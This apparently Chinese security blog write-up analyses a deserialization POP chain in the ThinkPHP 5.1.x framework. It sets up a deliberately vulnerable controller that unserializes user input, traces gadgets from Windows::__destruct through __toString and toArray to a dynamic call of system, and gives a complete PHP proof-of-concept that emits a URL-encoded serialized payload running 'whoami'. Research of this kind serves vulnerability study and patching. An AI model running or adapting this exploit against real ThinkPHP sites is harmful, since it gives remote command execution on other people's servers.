







ThinkPHP 5.1.x反序列化
环境搭建
1
2
3
4
5
|
$ composer create-project topthink/think=5.1.*-dev v5.1
$ cd v5.1
$ php think run
|
修改入口文件： /application/index/controller/Index.php
1
2
3
4
5
6
7
8
9
10
11
12
| <?php
namespace app\index\controller;
class Index
{
public function index($input='')
{
echo $input;
unserialize($input);
highlight_file(__FILE__);
}
}
|
POP链分析
链的起点：通过 think\process\pipes\Windows 类中的 __destruct 方法触发 removeFiles 方法
removeFiles 方法中，$filename 参数可控，来到 file_exists 函数，该函数如果处理的是 类对象 ，会触发该类的 __toString 魔术方法

于是全局搜索 __toString 方法，跟进 think\model\concern\Conversion
在 __toString 方法中触发 toJson 方法， toJson 方法中触发 toArray 方法
跟进 toArray 方法，首先进行了一处 array_merge 的 数组合并 ，把参数 $this->data 和 $this->relation 合并到 $data 中，然后对 $data 遍历键值 $key ，如果 $this->visible[$key] 存在，则调用 getAttr 方法，传入参数 $key

跟进到 think\model\concern\Attribute 类的 toArray 方法，我们最终要触发的是 getValue 方法，在这之前，先会触发 getData 方法

跟进 getData 方法，首先会调用 getRealFieldName ， 控制 $this->strict 参数为真，返回 $name 参数赋值给 $fieldName。然后通过 array_key_exists 函数判断，如果 $this->data 存在键名为 $fieldName ，则返回对应键值

通过 getData 返回 $value 参数后，与 $name 参数一起传入 getValue 方法，首先通过 getRealFieldName 方法处理 $name ，通过前面分析，我们可以控制 $this->strict 为真，直接返回 $name 给 $fieldName 。然后我们就可以通过控制 $this->withAttr[$fieldName] 动态调用的 函数名 ，$value 为 参数，执行动态函数调用。

不过这里函数中有两个参数，第二个参数 $this->data 为 数组 。不过 system 函数支持第二个参数为 数组。所以我们最终调用执行 system 函数。
最终POP链如下图所示：

POC
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
| <?php
namespace think\process\pipes{
class Windows
{
private $files = [];
public function __construct($files=[])
{
$this->files = $files;
}
}
}
namespace think\model\concern{
trait Conversion
{
protected $visible = [];
protected $relation = [];
}
trait Attribute
{
private $data = [];
private $withAttr = [];
}
}
namespace think{
use think\model\concern\Conversion;
use think\model\concern\Attribute;
abstract class Model
{
use Conversion;
use Attribute;
public function __construct($relation=[],$visible=[],$data=[],$withAttr=[])
{
$this->relation = $relation;
$this->visible = $visible;
$this->data = $data;
$this->withAttr = $withAttr;
}
}
}
namespace think\model{
use think\Model;
class Pivot extends Model{
public function __construct($relation=[],$visible=[],$data=[],$withAttr=[])
{
parent::__construct($relation,$visible,$data,$withAttr);
}
}
}
namespace{
$relation = array("system"=>1);
$visible = array("system"=>1);
$data = array("system"=>"whoami");
$withAttr = array("system"=>"system");
$pivot = new think\model\Pivot($relation,$visible,$data,$withAttr);
$windows = new think\process\pipes\Windows(array($pivot));
echo urlencode(serialize($windows));
}
|
实现效果

参考
挖掘暗藏ThinkPHP中的反序列利用链